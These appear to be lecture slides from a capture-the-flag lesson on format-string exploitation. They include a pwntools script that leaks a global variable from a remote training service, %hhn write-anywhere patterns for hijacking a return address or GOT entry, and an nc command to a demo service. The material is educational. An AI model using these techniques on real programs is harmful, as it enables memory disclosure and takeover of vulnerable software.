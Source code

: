 ```c
}
```

--

## Answer

```python
from pwn import *
# io=process('./global.out')
io=remote('vpn.duckll.tw',8702)
elf=ELF('./global.out')

io.sendline("%11$s".ljust(8)+p64(elf.symbols['x']))
ans=u32(io.recvline()[:4])
print ans
io.sendline(str(ans))
io.interactive()
```

---

# Write
## Any Memory

If the buffer on stack

```c
(addr+i)*4 (%(num+tmp)c%(offset+i)$hhn)*4
```

return addr, got hajick

--

# x64 因為高位00會截斷所以要擺相反

```c
(%(num+tmp)c%(offset+i)$hhn)*4+(addr+i)*4 
```

offset稍難計算

--

# Demo

[return to flag](https://drive.google.com/open?id=0B5w3KuqR3zoBa1VNZmgtSEJQS0k)

```shell
nc vpn.duckll.tw 8703
```
